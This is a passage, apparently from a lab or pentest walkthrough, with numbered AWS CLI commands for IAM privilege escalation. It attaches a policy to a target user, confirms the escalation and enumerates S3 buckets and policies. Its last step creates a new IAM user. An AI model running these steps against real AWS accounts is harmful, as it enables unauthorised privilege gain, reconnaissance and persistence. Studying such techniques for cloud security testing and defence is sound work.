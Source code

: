 5. Note the details displayed, including PolicyName, PolicyId, and Arn.

6. Attach the policy to the target IAM user (replace `[Target Username]` with the actual username):
    ```bash
    aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
    ```

7. View the attached policies of the target user:
    ```bash
    aws iam list-attached-user-policies --user-name [Target Username]
    ```

**Verification and Exploration:**

8. Confirm the privilege escalation by listing all IAM users:
    ```bash
    aws iam list-users
    ```

9. Explore further AWS environment information using commands:
    - List S3 buckets:
        ```bash
        aws s3api list-buckets --query "Buckets[].Name"
        ```
    - List User Policies:
        ```bash
        aws iam list-user-policies
        ```
    - List Role Policies:
        ```bash
        aws iam list-role-policies
        ```
    - List Group Policies:
        ```bash
        aws iam list-group-policies
        ```
    - Create a new user:
        ```bash
        aws iam create-user --user-name [NewUsername]
        ```

---